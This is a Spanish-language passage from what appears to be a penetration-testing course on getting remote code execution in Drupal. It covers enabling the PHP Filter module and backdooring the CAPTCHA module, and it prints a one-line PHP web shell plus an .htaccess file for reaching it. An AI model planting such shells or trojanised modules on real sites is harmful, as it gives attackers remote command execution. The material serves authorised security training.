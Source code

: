 Desde la versión 8 en adelante, el módulo `PHP Filter` no está instalado por defecto. Para aprovechar esta funcionalidad, tendríamos que instalar el módulo nosotros mismos. Dado que estaríamos cambiando y añadiendo algo a la instancia de Drupal del cliente, podríamos querer consultar con ellos primero. Comenzaríamos descargando la versión más reciente del módulo desde el sitio web de Drupal.

```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Una vez descargado, ir a `Administration` > `Reports` > `Available updates`.

Nota: La ubicación puede diferir según la versión de Drupal y puede estar en el menú Extend.

`http://drupal.inlanefreight.local/admin/reports/updates/install`

![](https://academy.hackthebox.com/storage/modules/113/install_module.png)

Desde aquí, hacer clic en `Browse,` seleccionar el archivo desde el directorio en el que lo descargamos, y luego hacer clic en `Install`.

Una vez instalado el módulo, podemos hacer clic en `Content` y crear una nueva página básica, similar a como lo hicimos en el ejemplo de Drupal 7. Nuevamente, asegúrese de seleccionar `PHP code` desde el desplegable `Text format`.

Con cualquiera de estos ejemplos, debemos mantener informado a nuestro cliente y obtener permiso antes de realizar este tipo de cambios. Además, una vez que hayamos terminado, debemos eliminar o deshabilitar el módulo `PHP Filter` y eliminar cualquier página que hayamos creado para obtener ejecución remota de código.

---

## Uploading a Backdoored Module

Drupal permite a los usuarios con permisos adecuados subir un nuevo módulo. Se puede crear un módulo con puerta trasera añadiendo una shell a un módulo existente. Los módulos se pueden encontrar en el sitio web de drupal.org. Vamos a elegir un módulo como [CAPTCHA](https://www.drupal.org/project/captcha). Desplácese hacia abajo y copie el enlace para el archivo tar.gz [archivo](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

Descargue el archivo y extraiga su contenido.

```bash
wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

Cree una web shell PHP con el contenido:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

A continuación, necesitamos crear un archivo .htaccess para darnos acceso a la carpeta. Esto es necesario ya que Drupal niega el acceso directo a la carpeta /modules.

```apache
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
